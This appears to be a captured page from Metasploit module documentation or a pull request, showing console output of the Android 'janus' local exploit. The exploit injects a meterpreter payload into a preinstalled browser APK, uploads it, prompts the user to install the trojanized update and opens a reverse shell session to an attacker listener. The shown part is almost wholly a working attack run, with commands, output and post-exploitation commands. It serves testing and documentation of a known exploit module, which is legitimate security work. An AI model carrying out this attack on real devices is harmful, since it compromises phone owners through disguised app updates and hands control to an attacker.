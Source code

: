 ```
resource (janus.rb)> set verbose true
verbose => true
resource (janus.rb)> run
[+] Android version 6.0.1 appears to be vulnerable.
[+] Android security patch level 2016-12-01 is vulnerable
[*] Downloading APK: /system/priv-app/UmeBrowser/UmeBrowser.apk
[*] Decompiling original APK..
[*] Decompiling payload APK..
[*] Locating hook point..
[*] Adding payload as package com.ume.browser.northamerica.onhad
[*] Loading /tmp/d20191105-15343-1heobn1/original/smali/com/ume/browser/UmeApplication.smali and injecting payload..
[*] Rebuilding apk with meterpreter injection as /tmp/d20191105-15343-1heobn1/output.apk
[*] Uploading APK: /sdcard/app.apk
[*] APK uploaded
[*] User should now have a prompt to install an updated version of the app
msf exploit(android/local/janus) >
```

Install the app on the phone.  For this app, clicking Open was not required, the shell was immediate.

![phone 1](https://user-images.githubusercontent.com/752491/68260086-d404a000-0009-11ea-96bc-aa3700570326.png)
![phone 2](https://user-images.githubusercontent.com/752491/68260085-d404a000-0009-11ea-9a10-b4da9c322996.png)
![phone 3](https://user-images.githubusercontent.com/752491/68260084-d404a000-0009-11ea-8256-92803b5d2ec8.png)

```
WARNING: Local file /root/metasploit-framework/data/android/metstage.jar is being used
WARNING: Local file /root/metasploit-framework/data/android/meterpreter.jar is being used

[*] Sending stage (73445 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:38676) at 2019-11-05 20:12:38 -0500

[-] Unknown command: (installing.
msf exploit(android/local/janus) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: u0_a34
meterpreter > pwd
/data/user/0/com.ume.browser.northamerica/files
```
